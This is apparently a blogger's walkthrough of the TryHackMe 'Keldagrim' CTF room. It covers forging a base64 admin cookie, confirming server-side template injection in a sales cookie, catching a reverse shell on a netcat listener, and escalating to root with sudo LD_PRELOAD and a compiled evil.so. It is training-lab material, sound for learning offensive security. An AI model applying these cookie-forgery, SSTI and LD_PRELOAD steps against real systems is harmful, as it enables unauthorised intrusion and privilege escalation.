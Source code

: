 ```yaml
---
layout: post
current: post
cover: 'assets/images/keldagrim/cover.png'
navigation: True
title: "Keldagrim Write Up"
date: 2021-03-06 00:00:00
tags: [tryhackme, ctf, medium]
class: post-template
subclass: 'post'
author: darryn
---
```

![keldagrim](/assets/images/keldagrim/cover.png)

### Overview

[Keldagrim](https://tryhackme.com/room/keldagrim) is a medium level CTF room on [TryHackMe](https://tryhackme.com) created by [Optional](https://twitter.com/optionalctf).

> Can you overcome the forge and steal all of the gold!

### Nmap

I deployed the machine and was given the target IP 10.10.252.142 I started a nmap scan to check the available ports. 

```highlight
└──╼ $sudo nmap -sC -sV -oN nmap/initial 10.10.252.142
Starting Nmap 7.80 ( https://nmap.org ) at 2021-03-06 13:03 GMT
Nmap scan report for 10.10.252.142
Host is up (0.030s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d8:23:24:3c:6e:3f:5b:b0:ec:42:e4:ce:71:2f:1e:52 (RSA)
|   256 c6:75:e5:10:b4:0a:51:83:3e:55:b4:f6:03:b5:0b:7a (ECDSA)
|_  256 4c:51:80:db:31:4c:6a:be:bf:9b:48:b5:d4:d6:ff:7c (ED25519)
80/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-cookie-flags: 
|   /: 
|     session: 
|_      httponly flag not set
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
|_http-title:  Home page 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.63 seconds
```

2 Ports open:

- 22 - SSH - Banner is showing its an Ubuntu machine
- 80 - HTTP - Werkzeug httpd 1.0.1

I also ran a full port scan but no additional ports were found.

### Enumeration

I opened up my browser and started to have a look at the web page.

![webpage](/assets/images/keldagrim/webpage.png)

Nothing really stood out however when I looked at the source code I could see a disabled link to /admin

```highlight
    <li class="nav-item dropdown">
        <a class="nav-link dropdown-toggle" href="#" id="navbarDropdown" role="button" data-toggle="dropdown" aria-haspopup="true" aria-expanded="false">
          Buy Gold
        </a>
        <div class="dropdown-menu" aria-labelledby="navbarDropdown">
            <a class="dropdown-item" href="/wow">World of Warcraft</a>
            <a class="dropdown-item" href="/OSRunescape">Old School Runescape</a>
            <a class="dropdown-item" href="/runescape">Runescape3</a>
          <div class="dropdown-divider"></div>
          <a class="dropdown-item " href="/admin">Admin</a>
        </div>
      </li>
</ul>
```

However the page looks pretty much the same. So I looked at cookies and found a session cooke with a base64 value.

![guest](/assets/images/keldagrim/guest.png)

There are lots of ways to change the base64 to plaintext but I really like [CyberChef](https://gchq.github.io/CyberChef/) at the moment. Using CyberChef I was able to see the value was 'guest'.

![cyberchef](/assets/images/keldagrim/cyberchef.png)

I used CyberChef again to encode 'admin' in to base64.

![adminhash](/assets/images/keldagrim/adminhash.png)

Simply changing the session cookie value to the base64 output and refreshing the page now allowed me to see - 'Current user - $2,165' and be provided with a sales cookie.

![sales](/assets/images/keldagrim/sales.png)

This was also base64 encoded, CyberChef has a great feature called 'Magic', if you are unsure how something is encoded use magic to suggest and test various operations.

![saleshash](/assets/images/keldagrim/saleshash.png)

This next bit took some time, I was able to base64 a string and input it in to the sales cookie and it would be displayed on the webpage, however I was unsure how I would be able to use this to get a foothold on the box. After some googling, I tried a technique called Server Side Template Injection (SSTI). This was not something I had tried to exploit before so I did some research on the technique to try and understand it and used [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) to see if I was on the right track. 

I found a payload {{7*'7'}} and if I had SSTI that should result in 7777777. I encoded the payload in base64 and updated the sales cookie with the output. 

![sstipayload](/assets/images/keldagrim/sstipayload.png)

Refreshed the page and confirmed I had SSTI in the sales cookie!

![ssti](/assets/images/keldagrim/ssti.png)

### Initial Access

On the same [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) page was an example for remote code execution. I took the example for exploiting an SSTI by calling Popen without guessing the offset, changed the IP and port values and encoded again with base64.

I opened a nc listener and updated the sales cookie with the base64 output and got a shell!

```highlight
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.8.21.217] from (UNKNOWN) [10.10.252.142] 36928
/bin/sh: 0: can't access tty; job control turned off
$ whoami
jed
$ 
```

### Priv Esc

Now to get root i checked 'sudo -l'.

```highlight
$ sudo -l
Matching Defaults entries for jed on keldagrim:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User jed may run the following commands on keldagrim:
    (ALL : ALL) NOPASSWD: /bin/ps
```

I had a look at [GTFOBins](https://gtfobins.github.io/) for '/bin/ps' but as expected I didn't find anything, I also noticed 'env_keep+=LD_PRELOAD'. There is a great course by [Heath Adams](https://twitter.com/thecybermentor) on [udemy](https://www.udemy.com/course/linux-privilege-escalation-for-beginners) for Linux privesc techinques and this is covered as part of the course. There is also a great [article](https://touhidshaikh.com/blog/2018/04/12/sudo-ld_preload-linux-privilege-escalation/) which covers it.

I used the steps in the article to create a file called evil.c, compiled with GCC. Ran the sudo command with LD_PRELOAD and got root!

```highlight
jed@keldagrim:/dev/shm$ sudo LD_PRELOAD=/dev/shm/evil.so ps
root@keldagrim:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root)
root@keldagrim:/dev/shm# 
```

Thanks for reading!
